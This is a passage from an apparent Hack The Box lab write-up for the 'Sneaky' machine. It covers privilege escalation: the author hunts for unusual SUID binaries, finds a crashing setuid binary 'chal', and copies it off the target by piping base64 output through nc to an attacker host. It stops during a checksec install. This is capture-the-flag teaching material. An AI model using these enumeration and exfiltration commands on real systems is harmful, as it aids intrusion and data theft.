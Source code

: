 Now on to priv esc, check for unusual SUID binaries:

```text
thrasivoulos@Sneaky:~$ find / -perm -4000 2>/dev/null

/bin/umount
/bin/su
/bin/mount
/bin/ping6
/bin/fusermount
/bin/ping
/usr/local/bin/chal
/usr/sbin/uuidd
/usr/sbin/pppd
/usr/bin/at
/usr/bin/pkexec
/usr/bin/traceroute6.iputils
<SNIP>
```

We see an unusual file called chal, check it out:

```text
hrasivoulos@Sneaky:~$ file /usr/local/bin/chal
/usr/local/bin/chal: setuid, setgid ELF 32-bit LSB  executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=fc8ad06fcfafe1fbc2dbaa1a65222d685b047b11, not stripped
```

It's a 32bit binary, try running it:

```text
thrasivoulos@Sneaky:~$ /usr/local/bin/chal
Segmentation fault (core dumped)
```

Core dump, suggests it's a classic buffer overflow exploit needed. First get it to Kali to have a look what security is enabled on it:

```text
root@kali:~/htb/sneaky# nc -lnvp 1234 > chal.b64
listening on [any] 1234 ...
```

Over on the box base64 encode and send it over:

```text
thrasivoulos@Sneaky:~$ base64 /usr/local/bin/chal | nc 10.10.14.14 1234
```

Now back on Kali we need to decode it:

```text
root@kali:~/htb/sneaky# base64 -d chal.b64 > chal
```

Install checksec if not already there:

```text
root@kali:~/htb/sneaky# apt install checksec
Reading package lists... Done
Building dependency tree
Reading state information... Done
The following NEW packages will be installed:
  checksec
0 upgraded, 1 newly installed, 0 to remove and 112 not upgraded.
Need to get 24.5 kB of archives.
After this operation, 108 kB of additional disk space will be used.
Get:1 http://kali.download/kali kali-rolling/main amd64 checksec all 2.1.0+git20191113.bf85698-2 [24.5 kB]
Fetched 24.5 kB in 0s (54.5 kB/s)
Selecting previously unselected package checksec.
```
